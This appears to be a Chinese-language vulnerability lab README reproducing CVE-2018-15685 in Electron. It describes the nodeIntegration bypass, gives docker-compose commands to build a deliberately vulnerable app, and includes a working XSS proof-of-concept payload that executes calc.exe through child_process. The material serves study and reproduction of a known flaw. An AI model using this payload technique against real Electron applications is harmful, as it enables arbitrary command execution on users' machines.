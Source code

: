 # Electron WebPreferences 远程命令执行漏洞（CVE-2018-15685）

Electron是由Github开发，用HTML，CSS和JavaScript来构建跨平台桌面应用程序的一个开源库。 Electron通过将Chromium和Node.js合并到同一个运行时环境中，并将其打包为Mac，Windows和Linux系统下的应用来实现这一目的。

Electron在设置了`nodeIntegration=false`的情况下（默认），页面中的JavaScript无法访问node.js的内置库。CVE-2018-15685绕过了该限制，导致在用户可执行JavaScript的情况下（如访问第三方页面或APP存在XSS漏洞时），能够执行任意命令。

参考链接：

- https://electronjs.org/blog/web-preferences-fix
- https://www.contrastsecurity.com/security-influencers/cve-2018-15685

## 编译APP

执行如下命令编译一个包含漏洞的应用：

```
docker-compose run -e PLATFORM=win64 --rm electron
```

其中PLATFORM的值是运行该应用的操作系统，可选项有：`win64`、`win32`、`mac`、`linux`。

编译完成后，再执行如下命令，启动web服务：

```
docker-compose run --rm -p 8080:80 web
```

此时，访问`http://your-ip:8080/cve-2018-15685.tar.gz`即可下载编译好的应用。

## 复现漏洞

在本地打开应用：

![](1.png)

点击提交，输入框中的内容将会显示在应用中，显然这里存在一处XSS漏洞。

我们提交`<img src=1 onerror="require('child_process').exec('calc.exe')">`，发现没有任何反馈，原因就是`nodeIntegration=false`。

此时，提交POC（Windows）：

```
<img src=1 onerror="window.open().open('data:text/html,<script>require(\'child_process\').exec(\'calc.exe\')</script>');">
```

可见，calc.exe已成功弹出：

![](2.png)
